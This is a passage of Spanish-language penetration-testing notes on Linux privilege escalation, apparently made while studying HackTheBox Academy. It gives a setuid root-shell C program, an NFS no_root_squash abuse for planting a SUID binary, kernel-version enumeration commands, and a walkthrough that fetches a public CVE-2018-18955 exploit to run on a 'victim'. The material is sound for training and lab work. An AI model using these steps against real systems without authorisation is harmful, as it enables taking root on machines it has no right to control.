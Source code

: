 	int main(void)
	{
	  setuid(0); setgid(0); system("/bin/bash");
	}
	```
- Compilarlo 
	```bash
	gcc shell.c -o shell
	# O para evitar problemas de compatibilidad
	gcc -static -o shell shell.c
	```
- Y siendo root en nuestra pwnbox hacer lo siguiente:
	```bash
	sudo mount -t nfs $target:/tmp /mnt
	# El contenido de /tmp/ remoto aparecerá en /mnt de nuestra pwnbox
	cp shell /mnt
	chmod u+s /mnt/shell
	```
- Al volver al host que tiene el servidor NFS, 
	```bash
	ls -la /tmp
	...
	-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
	```
- Tras ejecutar `shell` seremos root
	```bash
	./shell
	```
#### Secuestrando sesiones de tmux
Falta: Revisar[apuntes htb]( https://academy.hackthebox.com/module/51/section/478)
## Escalada basada en linux internals
### Kernel exploits
- La escalada se basa en encontrar el exploit, compilarlo y descargarlo
- Debemos buscar vulnerabilidades asociadas a la versión del kernel 

| Comando               | ¿Qué hace?                                                 |
| --------------------- | ---------------------------------------------------------- |
| `cat /etc/os-release` | Muestra info detallada y estructurada del sistema          |
| `cat /etc/issue`      | Muestra banner del sistema (a veces superficial)           |
| `uname -r`            | Versión exacta del **kernel** (clave para exploits) 🔥     |
| `arch` / `uname -m`   | Arquitectura del sistema (`x86_64`, `arm`, etc.)           |
| `hostnamectl`         | (si disponible) Muestra OS, kernel y hardware en resumen   |
| `lsb_release -a`      | (si está instalado) Otra forma de ver versión de la distro |
#### Ejemplo
- Linpeas nos da la salida de un posible exploit , CVE-2018-18955 subuid_shell
- Googleando `subuid_shell github explot` encontramos lo [siguiente](https://github.com/scheatkode/CVE-2018-18955/blob/main/README.md)
- Descargamos el último release en nuestra máquina 
	```bash
	 https://github.com/scheatkode/CVE-2018-18955/releases/download/v0.0.1/linux-x86_64.tar.gz
	```
- Lo subimos a la máquina víctima 
- Descomprimimos (deben estar todos los archivos `.sh`)y ejecutamos 